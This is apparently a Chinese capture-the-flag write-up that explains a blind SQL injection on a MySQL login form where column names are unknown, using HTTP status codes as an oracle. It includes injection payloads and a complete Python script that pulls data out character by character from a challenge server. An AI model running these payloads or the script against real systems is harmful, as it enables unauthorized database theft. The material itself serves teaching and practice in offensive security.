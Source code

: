 > flAg

好的，由于我们无法访问**information_schema**库，那么我们自然无法拿到列名，因此这里是一个无列名注入，仔细观察返回值，当SQL语句成功执行但是结果为False的时候，HTTP Status为302，SQL语句不成功执行时HTTP Status为500，当SQL语句返回为True时，HTTP Status为200，并且response.txt 内有'Hello'。

从这一层入手，测试这个表有多少列的思路就很明晰了，由于(a,b,c...)=(x,y,z)在MySQL中，如果前者的列数与后者列数不一致，则引发SQL错误，即返回500，否则应返回302或者200.

测试列数请求：

```http
username=admin&passwd=1'/**/or/**/(1,1,1)/**/=/**/(select/**/*/**/from/**/flagisHere.flAg/**/limit/**/0,1)#
```

该请求返回一个302，可以严格的确认该表有三列，虽然我们不知道各列的名字，但是由于未过滤union和as，我们可以方便地对其设置别名。

在MySQL中，dataset_1 union dataset_2返回的结果集列名为dataset_1的列名，因此，不妨构造：

```sql
select `1` from (select 1,2,3 union select * from flagisHere.flAg) as a
```

select  1,2,3的列明即为1,2,3，在这个过程中我们就对flAg表的列名命名了别名1，2，3.

那么接下来的注入就顺理成章，附脚本：

```python
import requests

url = "http://219.219.61.234:54380/login.php"

i = 0
table_name = ""
result = ""

while True:
    i += 1
    for char in range(32, 128):
        # payload = f"1'/**/or/**/lpad((select/**/group_concat(database_name)/**/from/**/mysql.innodb_table_stats/**/),{i},1)=/**/0x{table_name}{hex(char)[2:]}#"
        # database_name = flagisHere
        # payload = f"1'/**/or/**/lpad((select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name='flagisHere'),{i},1)=/**/0x{table_name}{hex(char)[2:]}#"
        # table_name = flAg
        # n_rows = 3
        # n_columns = 3
        # username=admin&passwd=1'/**/or/**/(1,1,1)/**/=/**/(select/**/*/**/from/**/flagisHere.flAg/**/limit/**/0,1) with 302 response
        payload = f"1'/**/or/**/lpad((select/**/group_concat(`3`)/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/flagisHere.flAg)as/**/a),{i},1)=/**/0x{table_name}{hex(char)[2:]}#"
        data = {
            'username': 'admin',
            'passwd': payload
        }

        response = requests.post(url, data=data, allow_redirects=False)
        if 'Hello' in response.text:
            table_name += hex(char)[2:]
            result += chr(char)
            print(result, f"i={i} chr={char}")
            break

```

